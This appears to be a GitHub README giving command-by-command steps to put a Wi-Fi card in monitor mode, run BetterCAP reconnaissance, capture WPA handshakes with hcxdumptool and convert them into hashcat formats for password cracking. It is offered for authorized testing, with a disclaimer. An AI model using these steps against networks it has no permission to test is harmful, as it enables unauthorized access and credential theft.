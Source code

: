 # Wi-Fi Handshake Capture and Analysis With BetterCAP

## Description
This project outlines the steps to capture Wi-Fi handshakes using BetterCAP and analyze them using hcxtools. The tools are intended for ethical security testing and should only be used with proper authorization.

## Prerequisites
- Linux system
- Wireless network interface in monitor mode
- Permissions to install and run tools (sudo access)

## Installation

### 1. Install BetterCAP

```bash
sudo apt update
sudo apt install bettercap
```

### 2. Check USB Devices

```bash
lsusb
```

### 3. Check Wireless Interface

```bash
iwconfig
```

### 4. Enable Monitor Mode with airmon-ng

```bash
sudo airmon-ng start <your_interface>
```
Replace <your_interface> with your wireless interface name, e.g., wlan0


### 5. Start BetterCAP

```bash

sudo bettercap
```

### 6. Set Wireless Interface in BetterCAP

```bash
set wifi.interface wlan0mon
```

### 7. Set Capture Method to File (Handshake)

```bash
set wifi.handshake file
```

### 8. Enable Wi-Fi Reconnaissance

```bash
wifi.recon on
```

### 9. Show Discovered Wi-Fi Networks

```bash
wifi.show
```

### 10. Show Associated Clients

```bash
wifi.assoc
```

### 11. Turn off Wi-Fi Reconnaissance and Exit BetterCAP

```bash
wifi.recon off
exit
```

### 12. Install hcxtools

```bash
sudo apt install hcxtools
```

### 13. Capture Handshakes with hcxdumptool

```bash
sudo hcxdumptool -i wlan0mon -o capture.pcapng --enable_status
```
 Replace `wlan0mon` with your monitored interface


### 14. Convert Captured File for hashcat

```bash

sudo hcxpcaptool -z test.16800 -o hashcat.hccapx capture.pcapng
```

## Disclaimer

Unauthorized access to Wi-Fi networks or attempts to crack passwords are illegal and unethical. Always comply with applicable laws and ethical standards.


